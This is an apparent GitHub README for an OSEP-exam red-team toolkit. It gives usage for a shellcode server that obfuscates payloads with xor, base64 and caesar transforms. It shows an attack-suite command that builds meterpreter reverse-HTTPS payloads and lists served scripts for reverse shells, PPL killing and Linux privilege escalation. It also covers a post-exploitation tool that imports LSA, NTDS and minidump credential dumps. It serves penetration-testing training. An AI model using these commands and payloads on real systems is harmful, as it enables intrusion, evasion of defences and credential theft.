

# osep-tools

## 3rd Party Library Version Info

* SharpHound [1.1.0](https://github.com/BloodHoundAD/SharpHound/commit/22e5985802c510ad9dc0864d2dd8b476d14248d1)
* CrackMapExec [5.2.1](https://github.com/byt3bl33d3r/CrackMapExec/commit/e9bcd09bd2c862200a40ecdc431fcf56f0ae5b67)

## msf api server

Create various format of shellcode with non-trivial transformer (xor, base64, caesar).

```
python3 shellcode_server.py -H localhost
```



## AttackSuite

### Setup I

Something useful in red team auditing.
```
pip3 install -r requirements.txt
```

Put following command into `~/.zshrc`

```
alias a="$HOME/.local/bin/arsenal"
```

### Setup II

#### For ARM64 Kali

Tools to compile `CSharp EXE` & `linux elf`.

```
sudo apt install -y mono-complete gcc-11-x86-64-linux-gnu
```

#### For AMD64 Kali

Tools to compile `CSharp EXE`.

```
sudo apt install -y mono-complete
```


### Intro

Core Function, must accompany with `shellcode_server.py` now. Can integrate with other C2 framework such as Covenant.

```bash
python3 attackSuite.py -a win -b 64 -i 192.168.49.134 -p 80 -P 443 --payload meterpreter/reverse_https --chain xor-adwocdmwa-cae-11 --csc mcs -r 8888
```

```
usage: attackSuite.py [-h] [-a {win,nix}] [-b {32,64}] [-n {2,4}] -i IP -p PORT -P RPORT [-r REVPORT]
                      [-gP GPORT] [--payload PAYLOAD] [--inject INJECT] [--chome CHOME]
                      [--mhome MSF_WORKDIR] [--ps1 PS1] [--chain CHAIN] [--stageless] [--csc CSC]
                      [--gcc GCC]

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -a {win,nix}, --os {win,nix}
                        Choose OS
  -b {32,64}, --bits {32,64}
                        Choose process bits
  -n {2,4}, --netclr {2,4}
                        Choose .NET CLR version
  -i IP, --ip IP        HTTP Listener IP
  -p PORT, --port PORT  HTTP Listener Port
  -P RPORT, --rport RPORT
                        msf Listener Port
  -r REVPORT, --revport REVPORT
                        NC Listener Port
  -gP GPORT, --gport GPORT
                        grunt Listener Port
  --payload PAYLOAD     meterpreter payload used
  --inject INJECT       target process to inject
  --chome CHOME         Covenant home directory
  --mhome MSF_WORKDIR   Metasploit Custom Meterpreter Scripts directory.
  --ps1 PS1             path to custom powershell script
  --chain CHAIN         payload transform expression, separated by "-" Ex. xor-ii1e12e1 => xor($buf,
                        'ii1e12e1') xor-eegg-cae-10 => cae(xor($buf, 'eegg'), 10)
  --stageless           create stageless payload (no interact with this http server)
  --csc CSC             C# compiler command
  --gcc GCC             GNU compiler command
```


### pre-defined scripts with fixed name

`http://<IP>:<PORT>/<name>`

| name | Function |
| ------ | ------ |
| /pk.ps1    | Invoke-KillPPL            |
| /flm.ps1   | Invoke-FLM                |
| /go.ps1    | met(x64) installutil      |
| /gm.ps1    | met(x64) msbuild          |
| /rev.ps1   | reverse flm shell         |
| /svc.ps1   | met(?) in service binary  |
| /svc_.ps1  | Invoke-ServicePwn         |
| /msi       | Write-MSI                 |
| /llpe      | linux LPE (cve-2021-4034) |
| /wlpc      | Invoke-WinPeas            |

### arsenal integration

```
alias a="arsenal"
cheatsheet output: $HOME/.cheats/osep_hunter.md    ( Only exist when attackSuite is runing )
```


                                        
## centre credential/host/record manager
                                        
Post-Exploitation Enumeration Tool designed for OSEP EXAM
                                        
### Setup

```
pip3 install -r requirements-centre.txt
```

Put following command into `~/.zshrc`.

```
alias centre.py="/path/to/centre.py"
```

You can type `centre.py` everywhere, creating `credential/host/record` in current working directory.

### Intro

```
usage: centre.py [-h] [--cme] [--rdp] [--import-lsa _LSA] [--import-ntds _NTDS] [--import-mini _MINIDUMP] [--import-nmap _NMAPXML] [-t ITARGET_IP]
                 [-T ITARGET_NAME] [--reset] [--debug] [--noproxy]

optional arguments:
  -h, --help            show this help message and exit
  --cme
  --rdp
  --import-lsa _LSA
  --import-ntds _NTDS
  --import-mini _MINIDUMP
  --import-nmap _NMAPXML
  -t ITARGET_IP, --itarget-ip ITARGET_IP
                        must be IPv4 format
  -T ITARGET_NAME, --itarget-name ITARGET_NAME
  --reset
  --debug
  --noproxy
```

execution result
```
+----+---------------+--------+----------------------------------+------------+
|    | User          | Pass   | NTLM                             | Domain     |
|----+---------------+--------+----------------------------------+------------|
|  0 | sqlsvc        |        | ******************************** | ******.*** |
+----+---------------+--------+----------------------------------+------------+
+----+----------------+----------+--------------------+
|    | IP             | HOST     | Ports              |
|----+----------------+----------+--------------------|
|  0 | 172.16.***.*** | dc04     | 5985 3389 445      |
|  1 | 172.16.***.*** | sql05    | 1433 445 5985 3389 |
|  2 | 172.16.***.*** | sql07    | 1433 445 5985 3389 |
|  3 | 172.16.***.*** | client09 | 3389 445           |
+----+----------------+----------+--------------------+

==== RCE machines ====
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
|    | IP             | User          | Pass   | NTLM                             | Domain     | Protocol   |   Status |
|----+----------------+---------------+--------+----------------------------------+------------+------------+----------|
|  0 | 172.16.***.*** | sqlsvc        |        | ******************************** | ******.*** | cme-mssql  |        1 |
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
======================
```
